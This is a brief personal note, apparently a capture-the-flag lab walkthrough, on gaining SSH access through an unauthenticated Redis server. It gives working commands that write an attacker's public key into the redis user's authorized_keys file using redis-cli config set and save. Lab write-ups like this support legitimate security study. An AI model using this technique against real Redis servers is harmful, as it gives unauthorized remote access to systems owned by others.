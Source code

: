 using this book
https://book.hacktricks.xyz/pentesting/6379-pentesting-redis
we found a way that we can take advantage of having unauthorized login to redis sever by uploading ssh key to the server 
first we creat ssh key 
ssh-keygen -f postman
then add 2 spaces at the top and the end
(echo -e "\n\n"; cat postman.pub; echo -e "\n\n") > spaced_key.txt
then upload the key to the server
cat spaced_key.txt | redis-cli -h 10.129.209.201 -x set ssh_key
10.129.209.201:6379> config set dir /var/lib/redis/.ssh           
OK
10.129.209.201:6379> config set dbfilename "authorized_keys"
OK
10.129.209.201:6379> save
OK
10.129.209.201:6379> exit
and we are in
![[Pasted image 20211217090709.png]]